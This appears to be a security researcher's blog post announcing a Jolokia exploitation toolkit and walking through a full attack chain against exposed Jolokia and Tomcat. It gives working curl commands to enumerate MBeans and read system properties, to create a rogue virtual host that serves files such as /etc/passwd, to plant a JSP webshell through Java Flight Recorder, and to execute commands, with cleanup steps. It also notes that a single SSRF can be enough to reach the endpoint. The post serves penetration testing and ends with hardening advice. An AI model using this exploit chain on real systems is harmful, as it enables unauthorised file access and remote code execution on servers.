







> TL;DR: I'm finally releasing [JET](https://github.com/laluka/jolokia-exploitation-toolkit), a [Jolokia Exploitation Toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)! \
> To introduct this tool & repo, I'll explain in detail how to get code execution with jolokia and Tomcat/Catalina Mbeans! :)


## Oops, I did it again.




I spent too much time on Jolokia, this is a fact. Now, I want you to be able to get shells as well, and I also would like the community to contribute to this project so `no jolokia can never ever survive to its pentester again`. 

If you want to follow along: 

```bash
docker run --rm -it --net=host --name jolokia bodsch/docker-jolokia
git clone https://github.com/laluka/jolokia-exploitation-toolkit
```

## Step 1: Parse /jolokia/list

The first thing one should do while fighting a jolokia dragon, is parse its listed MBeans. Luckily (duh), JET got you covered!

```bash
python jolokia-parser.py http://127.0.0.1:8080/jolokia | tee jolokia-list.log
```




## Step 1.1: Get some information (optional)

As many properties can be read through jolokia, it's always a good starting point to get information, absolute paths, java versions, sometimes secrets, etc. 

```bash
cat jolokia-list.log | grep /read/ | wc -l
# 2865 // Almost 3K urls giving juicy info, yum!
mkdir dump && cd dump
for url in $(cat ../jolokia-list.log | grep /read/); do echo "$url"; curl -skO "$url" ; done
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationName
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/MBeanServerId     
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVersion
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVersion
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVendor
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationName
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVendor
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/EventTypes
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/Recordings
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/Configurations
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/ObjectName
# http://127.0.0.1:8080/jolokia/read/java.util.logging:type=Logging/LoggerNames 
```

Good candidates are the following: 

```bash
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/BootClassPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/ClassPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/InputArguments' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/LibraryPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/SystemProperties' | jq .
```




## Step 2: Abuse Tomcat/Catalina Vhost features

One really cool thing I like about jolokia exploitation, is that many people try to find bugs, or exploit logback, but... It's like `JMX`, it has `FEATURES`, so `USE THEM`! :)


> - Side note here. Jolokia `is` a bridge that allows you to reach [Mbeans](https://thinkloveshare.com/hacking/ssrf_to_rce_with_jolokia_and_mbeans/) (like JMX features) through HTTP. 
> - They explain in [their documentation](https://jolokia.org/reference/html/agents.html#agent-war-security) that jolokia should not be publicly exposed. 
> - No disclosure has been done whatsoever as it's not a bug, it's just `feature`. They are already doing their part, just read the doc...

What one can do here is use the Tomcat management MBean to deploy a new vhost, and WOOSH!

```bash
grep createStandardHost jolokia-list.log
# http://127.0.0.1:8080/jolokia/exec/Catalina:type=MBeanFactory/createStandardHost/$java.lang.String/$java.lang.String/$java.lang.String/$boolean/$boolean/$boolean/$boolean
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:type=MBeanFactory/createStandardHost/Catalina:type=Host,host=dummy.com/dummy.com/!//true/true/true/true' | jq .
```



Okay, WTF happened? \
We just deployed a new Virtual Host named `dummy.com`, starting from the root `/` of the server. \
What this really means, is that every 2nd level directory has been deployed on this Vhost. This implies MANY things. 

- We can now read anything!
- We can execute jsp already existing everywhere on the server
- The vhost is our "attacker key". As long as it stays secret, it's not """exposed"""
- We can reach world writable directories such as `/tmp` or `/dev/shm`

```bash
curl -skg 'http://127.0.0.1:8080/etc/passwd' -H 'Host: dummy.com'
```



Scary right? But wait, there's more!!


## Step 3: File write with Java Flight Recorder (JFR)

One Mbean that is really often present in the JFR Mbean. It offerts the collection of information about the request processed by the JVM, the JVM itself, the server, etc. 

One small quirk is that its extension isn't enforced, so one can trigger a Java Flight Record, and write it as a... `foobar.jsp` file. That the JVM will happily process and execute!

But what is in the JFR? How much garbage? Can we control enough content? \
Well, this was a long part of the research: How to acquire a reliable file write. 

There are probably many ways to achieve this, but the one I found is the following: \
Before starting the Flight Record itself, the name of the flight record is stored within the JVM. This implies that it will then be part of the JFR. \
Sooooo, if we're able to create a filename.jsp that is as well as webshell, and doesn't contain any `/` `"` `'` or other bad char breaking out attack we're good to go!

Long story short, here's one working payload, it's not the most elegant, but it sure worked many times! :)

```bash
PAYLOAD_AND_JSPFILE=$(python2 -c "import sys, urllib as ul; print ul.quote(sys.argv[1])" '<%=Runtime.getRuntime().exec(request.getParameter(String.valueOf(42))).getInputStream()%>.jsp')
echo "$PAYLOAD_AND_JSPFILE"
# %3C%25%3DRuntime.getRuntime%28%29.exec%28request.getParameter%28String.valueOf%2842%29%29%29.getInputStream%28%29%25%3E.jsp
```

Then we use our often-present Mbean `DiagnosticCommand/jfrStart` to write our webshell in `/tmp/`. \
Here, the duration can be adjusted to have a small enough dump so the JVM can compile the jsp (minimize the garbage overhead), but long enough so the filename can be placed in the JFR.

```bash
curl -skg 'http://127.0.0.1:8080/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/'"$PAYLOAD_AND_JSPFILE"',path-to-gc-roots=true,duration=3s'
```


## Step 4: Enjoy our RCE \o/

```bash
curl -skg 'http://127.0.0.1:8080/tmp/'"$PAYLOAD_AND_JSPFILE"'?42=curl%20127.0.0.1/rce' -H 'Host: dummy.com'
```



> This webshell doesn't print the command output in the response, but the webshell can easily be modified to do so! \
> Might be cool to make it your first contribution! Right? 🌸


## Step 5: Clean yo shit!

This is to me the cutest part. It's dead-simple to clean your mess afterward!

1. Thanks to your shell, you can remove all the files you wrote
1. Thanks to the MBean features, you can stop and destroy `your` vhost (be `very careful` here)

```bash
python jolokia-parser.py http://127.0.0.1:8080/jolokia | grep -P 'dummy.com.*Host/(stop|destroy)'
# http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/destroy
# http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/stop
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/stop'
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/destroy'
# And voilà!
```




## Step 6: Bonus!

Hey, did you notice? \
Every step we went through only uses GET requests! \
This means that a single SSRF can be enough to reach and exploit an internal jolokia endpoint!! \
This also means that as a dev, you should:

- Always add authentication
- Make sure that no SSRF is present on the application/server
- Use it only if you `really` (`really` `really` `really`) need it


## Last words

- Use [JET - Jolokia Exploitation Toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)
- This specific exploit is sumed'up [here](https://github.com/laluka/jolokia-exploitation-toolkit/blob/main/exploits/file-write-to-rce-vhost-jfr.md) 
- Feel free to contribute! There are so many ways to break jolokia, what's yours?
- If you used this tool and don't have time to push code but have ideas, come say hi! [@TheLaluka](https://twitter.com/TheLaluka)

If you read that far and are still interested, another exploit (part of [JET](https://github.com/laluka/jolokia-exploitation-toolkit)) is explained [here](https://therealcoiffeur.github.io/c11011) by a friend [@Coiffeur0x90](https://twitter.com/Coiffeur0x90), have a look! ;)
